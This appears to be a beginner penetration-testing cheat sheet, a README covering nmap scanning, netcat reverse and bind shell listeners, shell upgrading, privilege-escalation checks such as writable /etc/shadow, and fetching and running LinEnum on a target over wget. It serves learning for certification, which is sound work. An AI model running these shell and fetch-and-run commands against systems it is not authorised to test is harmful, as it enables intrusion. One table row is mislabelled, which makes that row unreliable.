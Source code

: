 # About this Cheat Sheet. (For beginners)
I made this Cheat Sheet with no other purpose than to help myself in my own learning way. Since I'm not able to remember all these commands or practices, I've resorted to making this file so I can make faster searchs according to my needs. This is a beginner Cheat Sheet and the level corresponds approximately to the eLearnSecurity Junior Penetration Tester Certificate.

This readme was corrected to a perfect English for [@chetstink](https://twitter.com/chetstink "Twitter")

You can find me on twitter here. [@0x1_dev](https://twitter.com/0x1_dev "Twitter")


## Networking.
#### Nmap - For vulnerability scanning and network discovery.
| Usage                 |
| --------------------- |
| `nmap <options> <IP>` |


| Parameter name                             | Description                                                                       |
| -------------------------------------------| --------------------------------------------------------------------------------- |
| `-p <port-number>`                         | Scans a port or some of them.  (it scans the first 1.000 ports by default.)       |
| `-p- <startPort-number endPort-number>`    | Scans a range of ports. (By default it scans all ports.)                          |
| `-sV`                                      | Gives information about service's versions.                                       |
| `-Pn`                                      | Skip the ping test, instead scan everytarget host provided.                       |

There are a lot more parameters, they can be found [here](https://nmap.org/book/man-briefoptions.html "Nmap parameters.").



## Reverse and Blind Shells
| Name               | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| Reverse Shell      |  Target connects to us. (We set up a listener before they connect to us.)  |
| Vertical PrivEsc   |  We connect to the target. (The target is the one who set up a listener.) |


#### How to use Netcat to set up a listener. (Reverse shell)
```bash
nc -lvnp <port-number>
```

| Parameters         | Description                                                                    
| ------------------ | ------------------------------------------------------------------------- |
| `-l`               |  Tells netcat that this will be a listener.                               |
| `-v`               |  Verbose output.                                                          |
| `-n`               |  Not resolve hostnames or use DNS                                         |
| `-p`               |  The port that we will use                                                |


#### How to use Netcat to connect to a listener. (Blind shell)
```bash
nc <target-ip> <chosen-port>
```


## Upgrade shell.
After we have a shell, we should upgrade it, because netcat isn't too stable. Also we can't use arrow keys, tab key or Ctrl + C.

#### Using Python

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
[Ctrl+Z]
stty raw -echo; fg
````
#### Using Rlwrap
After we install it with `sudo apt install rlwrap` we need to use nc like this.

```bash
rlwrap nc -lvnp <port>
```


## Privilege Escalation

Understanding the two main privilege escalation variants.

| Name         | Description                                                                       |
| -------------------------- | --------------------------------------------------------------------------------- |
| Horizontal PrivEsc         |  Used to hijack another user with the same privileges. Some users even if they're not an admin can have SUID files, or if they are allowed to use sudo for different files or programs.   |
| Vertical PrivEsc | You just take an administrator account. |

TODO: Make a picture with a diagram.

#### LinEnum
We can use [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh "LinEnum") to enumerate privilege escalation. Below we can find a table for things we should check for privilege escalation regardless of LinEnum doing the task for us.


| Things to check for   |
| -------------         |
| SUID / GUID Files     |
| Readable /etc/shadow  |
| Writable /etc/shadow  |
| Writable /etc/passwd  |
| Sudo Escape sequences |
| Cron Jobs - File permissions  |
| Cron Jobs - PATH env          |
| Passwords & Keys History File |
| Looking for SSH or Config files |
| NFS |
| Kernel exploits |
| Escaping VI editor |

There are several ways of executing the script in the target machine. However, creating a Python web server would be the second easiest one in case we can't recreate the script by coping and pasting it.

1. Create a Python web server.
2. Download the script in the target machine.
3. Make the script executable.

```bash
1. python -m SimpleHTTPServer [PORT]
2. wget http://IP:PORT/FILE
3. chmod +x [FILE]
```

#### How to find SUID binaries.

```bash 
find / -perm -u=s -type f 2>/dev/null
           ---- or ----
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```


[This cheat sheet is still under construction...]
